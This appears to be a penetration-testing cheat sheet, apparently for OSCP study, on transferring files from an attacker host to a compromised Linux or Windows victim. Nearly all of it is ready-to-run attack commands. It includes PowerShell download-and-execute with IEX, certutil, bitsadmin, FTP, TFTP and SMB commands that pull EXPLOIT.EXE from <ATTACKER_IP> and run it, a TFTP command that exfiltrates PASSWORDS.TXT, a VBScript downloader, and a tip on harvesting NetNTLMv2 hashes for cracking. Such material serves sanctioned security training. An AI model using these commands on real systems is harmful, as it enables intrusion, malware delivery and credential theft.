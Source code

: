 # Transferring Files from Linux to Linux

## On attacker host

Set Up a Simple Python Webserver:
```
python -m SimpleHTTPServer 4444
```

## On victim host

* Curl
* Netcat
* Ncat
* PHP
```
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > 
```
* TFTP
* FTP
* SCP

# Transferring Files from Linux to Windows

## PowerShell

**On attacker host**
```
python -m SimpleHTTPServer 4444
```

**On victim host**
* Browse http://<ATTACKER_IP>:4444/EXPLOIT.EXE
* **Download** file with a powershell command:
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c "(new-object System.Net.WebClient).DownloadFile('http://<ATTACKER_IP>/EXPLOIT.EXE','C:\temp\EXPLOIT.EXE')"
```

* **Download** and **execute** a powershell script:
```
powershell "IEX(New Object Net.WebClient).downloadString('http://<targetip>/file.ps1')"
```

## FTP

**On attacker host**
```
python -m pyftpdlib -p 21
```

**On victim host**

Windows has an FTP client built in to the PATH. You can open an FTP connection and download the files directly from Kali on the command line:
```
C:\temp>echo open <ATTACKER_IP> >ftp_commands.txt  
C:\temp>echo anonymous>>ftp_commands.txt  
C:\temp>echo whatever>>ftp_commands.txt  
C:\temp>echo binary>>ftp_commands.txt  
C:\temp>echo get EXPLOIT.EXE>>ftp_commands.txt  
C:\temp>echo bye>>ftp_commands.txt  
C:\temp>ftp -v -s:ftp_commands.txt 
```

## TFTP

It used to be installed by default in Windows XP, but now needs to be manually enabled on newer versions of Windows.

You can try to enable TFTP from the command line:
```
pkgmgr /iu:"TFTP"  
```

**On attacker host**
* With Metasploit framework
```
msfconsole
use auxiliary/server/tftp
```

* With atftpd daemon
```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```
(Now you can put stuff in `/srv/tftp` and it will be served)

**On victim host**
* Grab file
```
tftp -i <ATTACKER_IP> GET EXPLOIT.EXE 
```

* Exfiltrate file
```
tftp -i <ATTACKER_IP> PUT PASSWORDS.TXT
```

## SMB

**On attacker host**
```
python smbserver.py SHARE <ATTACKER_DIR>
```

If you look at the output from `smbserver.py`, you can see that every time we access the share it outputs the NetNTLMv2 hash from the current Windows user. You can feed these into John or Hashcat and crack them if you want (assuming you can't just elevate to System and get them from Mimikatz)

**On victim host**
* Get file
```
copy \\<ATTACKER_IP>\SHARE\EXPLOIT.EXE 
```

* Execute .exe
```
\\<ATTACKER_IP>\SHARE\EXPLOIT.EXE 
```

## VBScript

Here is a good script to make a wget-clone in VB:
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Execute the script:
```
cscript wget.vbs http://<ATTACKER_IP>/EXPLOIT.EXE EXPLOIT.EXE
```

## Debug.exe

Works on **windows 32 bit** machines. Payload size must be lower than 64 kb!

**On attacker host**
* Compress `nc.exe`
```
upx -9 nc.exe
```

* Disassemble it
```
wine exe2bat.exe nc.exe nc.txt
```

**On victim host**

Just copy-past the text into our windows-shell. And it will automatically create a file called `nc.exe`

## CertUtil

**On victim host**
```
certutil.exe -urlcache -f http://10.0.0.5/EXPLOIT.EXE EXPLOIT.EXE
```

## bitsadmin

Download files in Windows with bitsadmin:
```
bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
```

# References

* https://blog.ropnop.com/transferring-files-from-kali-to-windows/
* https://sushant747.gitbooks.io/total-oscp-guide/transfering_files.html
* https://0xdarkvortex.dev/index.php/2018/04/17/31-days-of-oscp-experience/